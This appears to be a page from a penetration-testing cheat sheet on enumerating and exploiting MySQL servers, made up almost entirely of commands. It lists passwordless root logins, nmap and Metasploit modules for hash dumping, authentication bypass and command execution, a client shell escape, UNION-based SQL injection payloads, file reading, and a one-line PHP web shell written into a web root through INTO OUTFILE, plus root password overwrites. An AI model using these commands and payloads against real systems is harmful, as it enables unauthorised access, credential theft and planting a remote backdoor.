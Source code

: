 ### Enumerating & Exploiting

**Connect:

**Locally**

```bash
mysql -u root # Connect to root without password
mysql -u root -p # A password will be asked (check someone)
```

Remotely

```bash
mysql -h <Hostname> -u root
mysql -h <Hostname> -u root@localhost
```


**External Enumeration**

Some of the enumeration actions require valid credentials

```bash
nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 <IP>

msf> use auxiliary/scanner/mysql/mysql_version
msf> use auxiliary/scanner/mysql/mysql_authbypass_hashdump
msf> use auxiliary/scanner/mysql/mysql_hashdump #Creds
msf> use auxiliary/admin/mysql/mysql_enum #Creds
msf> use auxiliary/scanner/mysql/mysql_schemadump #Creds
msf> use exploit/windows/mysql/mysql_start_up #Execute commands Windows, Cre
```

**MySQL commands**

```bash
show databases;
use <database>;
connect <database>;
show tables;
describe <table_name>;
show columns from <table>;
select version(); #version
select @@version(); #version
select user(); #User
select database(); #database name

#Get a shell with the mysql client user
\! sh

#Basic MySQLi
Union Select 1,2,3,4,group_concat(0x7c,table_name,0x7C) from information_schema.tables
Union Select 1,2,3,4,column_name from information_schema.columns where table_name="<TABLE NAME>"

#Read & Write
## We need FILE privilege to read & write to files.
select load_file('/var/lib/mysql-files/key.txt'); #Read file
select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE 'C:/xampp/htdocs/back.php'

#Try to change MySQL root password
UPDATE mysql.user SET Password=PASSWORD('MyNewPass') WHERE User='root';
UPDATE mysql.user SET authentication_string=PASSWORD('MyNewPass') WHERE User='root';
FLUSH PRIVILEGES;
quit;
```
